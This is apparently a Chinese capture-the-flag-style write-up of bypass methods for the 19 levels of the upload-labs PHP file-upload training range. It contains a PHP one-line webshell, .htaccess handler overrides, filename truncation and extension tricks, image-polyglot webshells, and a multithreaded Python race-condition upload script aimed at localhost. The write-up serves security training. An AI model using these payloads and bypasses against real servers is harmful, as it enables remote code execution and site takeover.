### 0x00: 前言

本篇文章主要记录绕过一个基于php语言的上传漏洞的靶场项目[upload-labs](https://github.com/c0ny1/upload-labs) (最新commit[17ec936](https://github.com/c0ny1/upload-labs/commit/17ec93650d05d956e5868518cd6e8e36085ab2a3)的19个上传关卡的方法。

文章适合有一定上传绕过知识基础的读者阅读，绕过原理请参考其它文章和项目源码，限于篇幅文章中不展开解释。

### 0x01:测试配置

| 操作系统            | Windows 10                         |
| --------------- | ---------------------------------- |
| **服务器环境**       | phpStudy 2016                      |
| **PHP版本**       | 5.2.17                             |
| **php.ini启用扩展** | extension=php_gd2.dll              |
| **php.ini启用扩展** | extension=php_mbstring.dll         |
| **php.ini启用扩展** | extension=php_exif.dll             |
| **Firefox插件**   | NoScript                           |
| **Firefox插件**   | HackBar                            |
| **抓包工具**        | Burpsuite Pro                      |
| **Webshell代码**  | <?php assert($_POST["LandGrey"])?> |

### 0x02: 绕过方法

#### Pass-01：

前端禁用JS，直接上传Webshell



#### Pass-02：

截断上传数据包，修改Content-Type为`image/gif`，然后放行数据包



#### Pass-03：

重写文件解析规则绕过。上传先上传一个名为`.htaccess`文件，内容如下：

```
<FilesMatch "03.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```




然后再上传一个`03.jpg`




执行上传的`03.jpg`脚本



#### Pass-04：

方法同**Pass-03**, 重写文件解析规则绕过









#### Pass-05：

文件名后缀大小写混合绕过。`05.php`改成`05.phP`然后上传



#### Pass-06：

利用Windows系统的文件名特性。文件名最后增加**点和空格**，写成`06.php. `，上传后保存在Windows系统上的文件名最后的一个`.`会被去掉，实际上保存的文件名就是`06.php`



#### Pass-07：

原理同**Pass-06**，文件名后加点，改成`07.php.`



#### Pass-08：

Windows文件流特性绕过，文件名改成`08.php::$DATA`，上传成功后保存的文件名其实是`08.php`



#### Pass-09：

**原理同Pass-06**，上传文件名后加上**点+空格+点**，改为`09.php. .`


#### Pass-10：

双写文件名绕过，文件名改成`10.pphphp`



#### Pass-11：

上传路径名%00截断绕过。上传的文件名写成`11.jpg`, save_path改成`../upload/11.php%00`，最后保存下来的文件就是`11.php`



#### Pass-12：

原理同**Pass-11**，上传路径0x00绕过。利用Burpsuite的Hex功能将save_path改成`../upload/12.php【二进制00】`形式



#### Pass-13：

绕过文件头检查，添加GIF图片的文件头`GIF89a`，绕过GIF图片检查。



使用命令`copy normal.jpg /b + shell.php /a webshell.jpg`，将php一句话追加到jpg图片末尾，代码不全的话，人工补充完整。形成一个包含Webshell代码的新jpg图片，然后直接上传即可。[JPG一句话shell参考示例](https://github.com/LandGrey/upload-labs-writeup/blob/master/webshell/webshell.jpg)



png图片处理方式同上。[PNG一句话shell参考示例](https://github.com/LandGrey/upload-labs-writeup/blob/master/webshell/webshell.png)


#### Pass-14：

原理和示例同**Pass-13**，添加GIF图片的文件头绕过检查



png图片webshell上传同**Pass-13**。

jpg/jpeg图片webshell上传存在问题，正常的图片也上传不了，等待作者调整。

#### Pass-15：

原理同**Pass-13**，添加GIF图片的文件头绕过检查



png图片webshell上传同**Pass-13**。

jpg/jpeg图片webshell上传同**Pass-13**。

#### Pass-16：

原理：将一个正常显示的图片，上传到服务器。寻找图片被渲染后与原始图片部分对比仍然相同的数据块部分，将Webshell代码插在该部分，然后上传。具体实现需要自己编写Python程序，人工尝试基本是不可能构造出能绕过渲染函数的图片webshell的。

这里提供一个包含一句话webshell代码并可以绕过PHP的imagecreatefromgif函数的GIF图片[示例](https://github.com/LandGrey/upload-labs-writeup/blob/master/webshell/php/bypass-imagecreatefromgif-pass-00.gif)。



打开被渲染后的图片，Webshell代码仍然存在



提供一个jpg格式图片绕过imagecreatefromjpeg函数渲染的一个[示例文件](https://github.com/LandGrey/upload-labs-writeup/blob/master/webshell/php/bypass-imagecreatefromjpeg-pass-LandGrey.jpg)。 直接上传示例文件会触发Warning警告，并提示文件不是jpg格式的图片。但是实际上已经上传成功，而且示例文件名没有改变。





从上面上传jpg图片可以看到我们想复杂了，程序没有对渲染异常进行处理，直接在正常png图片内插入webshell代码，然后上传[示例文件](https://github.com/LandGrey/upload-labs-writeup/blob/master/webshell/php/bypass-imagecreatefrompng-pass-LandGrey.jpg)即可，并不需要图片是正常的图片。



程序依然没有对文件重命名，携带webshell的无效损坏png图片直接被上传成功。


#### Pass-17：

利用条件竞争删除文件时间差绕过。使用命令`pip install hackhttp`安装[hackhttp](https://github.com/BugScanTeam/hackhttp)模块，运行下面的Python代码即可。如果还是删除太快，可以适当调整线程并发数。

```python
#!/usr/bin/env python
# coding:utf-8
# Build By LandGrey

import hackhttp
from multiprocessing.dummy import Pool as ThreadPool


def upload(lists):
    hh = hackhttp.hackhttp()
    raw = """POST /upload-labs/Pass-17/index.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/upload-labs/Pass-17/index.php
Cookie: pass=17
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------6696274297634
Content-Length: 341

-----------------------------6696274297634
Content-Disposition: form-data; name="upload_file"; filename="17.php"
Content-Type: application/octet-stream

<?php assert($_POST["LandGrey"])?>
-----------------------------6696274297634
Content-Disposition: form-data; name="submit"

上传
-----------------------------6696274297634--
"""
    code, head, html, redirect, log = hh.http('http://127.0.0.1/upload-labs/Pass-17/index.php', raw=raw)
    print(str(code) + "\r")


pool = ThreadPool(10)
pool.map(upload, range(10000))
pool.close()
pool.join()
```

在脚本运行的时候，访问Webshell



#### Pass-18：

只需要把文件名改成`18.gif`即可上传



#### Pass-19：

原理同**Pass-11**，上传的文件名用0x00绕过。改成`19.php【二进制00】.1.jpg`



### 0x03: 后记

可以发现以上绕过方法中有些是重复的，有些是意外情况，可能与项目作者的本意不符，故本文仅作为参考使用。

等作者修复代码逻辑后，本文也会适时更新。